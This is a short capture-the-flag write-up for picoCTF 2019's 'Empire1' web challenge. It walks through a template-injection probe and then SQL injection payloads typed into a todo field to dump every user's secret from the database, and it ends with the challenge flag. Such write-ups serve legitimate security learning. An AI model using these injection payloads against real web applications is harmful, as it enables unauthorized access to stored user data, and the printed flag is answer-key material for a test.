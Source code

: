 # Empire1

## Problem

> Psst, Agent 513, now that you're an employee of Evil Empire Co., try to get their secrets off the company website. <https://2019shell1.picoctf.com/problem/27357/> (link) Can you first find the secret code they assigned to you? or <http://2019shell1.picoctf.com:27357>

* [Website](https://2019shell1.picoctf.com/problem/27357/)

## Solution

1. Create an account and sign in
2. Attempt to add a todo of `{{config}}` (since this is a flask application and that would leak important configuration details about the application)
3. Most likely the add todo is using an `INSERT` SQL statement so try concat: `string'||'concated?'||'`. It works!
4. Run `'||(select secret from user)||'` but only gets one secret
5. So use a group_concat to get all secrets: `' || (select group_concat(secret) from user) || '`

### Flag

`picoCTF{wh00t_it_a_sql_inject9899be1a}`